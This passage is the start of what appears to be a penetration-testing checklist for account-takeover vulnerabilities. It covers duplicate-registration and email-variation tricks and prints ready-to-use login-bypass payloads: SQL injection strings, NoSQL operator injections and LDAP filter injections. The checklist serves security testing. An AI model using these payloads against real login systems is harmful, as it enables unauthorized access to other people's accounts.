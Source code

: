 # Account Takeover (ATO) Vulnerability Checklist

## Overview
Account Takeover vulnerabilities allow attackers to gain unauthorized access to user accounts, potentially leading to data theft, financial fraud, and unauthorized actions. This comprehensive checklist covers modern ATO techniques and bypass methods.

## Table of Contents
1. [Authentication Bypass](#authentication-bypass)
2. [Password Reset Vulnerabilities](#password-reset-vulnerabilities)
3. [Email-based Attacks](#email-based-attacks)
4. [Session Management Issues](#session-management-issues)
5. [Multi-Factor Authentication Bypass](#multi-factor-authentication-bypass)
6. [OAuth/SSO Vulnerabilities](#oauthsso-vulnerabilities)
7. [API-based ATO](#api-based-ato)
8. [Advanced Techniques](#advanced-techniques)
9. [Automation & Tools](#automation--tools)

---

## Authentication Bypass

### 1. Registration Bypass
- **Duplicate Email Registration**: Try registering with existing emails
  ```
  POST /register
  email=victim@target.com
  password=newpassword123
  ```
- **Case Sensitivity Issues**: Test email case variations
  ```
  victim@target.com
  Victim@target.com
  VICTIM@target.com
  ```
- **Email Domain Variations**: Test subdomain/domain confusion
  ```
  victim@target.com
  victim@target.co.uk
  victim@target.org
  ```

### 2. Login Bypass Techniques
- **SQL Injection in Login**: Test for SQLi in username/password fields
  ```sql
  username: admin'--
  password: anything
  username: admin' OR '1'='1'--
  username: admin' UNION SELECT 1,2,3--
  ```
- **NoSQL Injection**: Test for NoSQL injection
  ```json
  {"username": {"$ne": null}, "password": {"$ne": null}}
  {"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}
  ```
- **LDAP Injection**: Test LDAP-based authentication
  ```
  username: *)(uid=*))(|(uid=*
  username: admin)(&(password=*)
  ```
